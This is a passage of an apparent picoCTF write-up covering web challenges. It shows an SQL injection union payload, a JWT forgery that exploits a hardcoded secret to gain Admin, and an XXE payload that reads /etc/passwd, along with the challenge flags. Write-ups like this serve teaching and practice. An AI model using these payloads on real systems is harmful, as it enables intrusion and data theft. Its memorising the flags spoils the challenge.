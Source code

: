 not useful

read content of `more_table` (`%' union select id,flag,3 FROM more_table -- #`)

```
1	picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_90ce668a}	3
2	If you are here, you must have seen it	3
```

`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_90ce668a}`

### Java Code Analysis!?!

by the hint, the issue is at JWT

reading `src/main/java/io/github/nandandesai/pico/security/JwtService.java`. found that the secret key is generate by `secretGenerator.getServerSecret();`

reading `src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java`. found that the secret is a constant value `1234`. so the secret of JWT is `1234` and we are able to forgery JWT token

by login, the JWT is at `auth-token` in `local stroage`, we can use [jwt.io](https://jwt.io/) and modify JWT as following

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1679478203,
  "iat": 1678873403,
  "userId": 2,
  "email": "admin"
}
```

after modify `auth-token` and `token-payload`, reload the page. then you will find that your role becomes Admin

so just read the `Flag` book

`picoCTF{w34k_jwt_n0t_g00d_caa8d1c4}`

### SOAP

XXE

[ref](https://ithelp.ithome.com.tw/articles/10240598)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<data><ID>&b;</ID></data>
```

`picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}`

## Crypto
### ReadMyCert
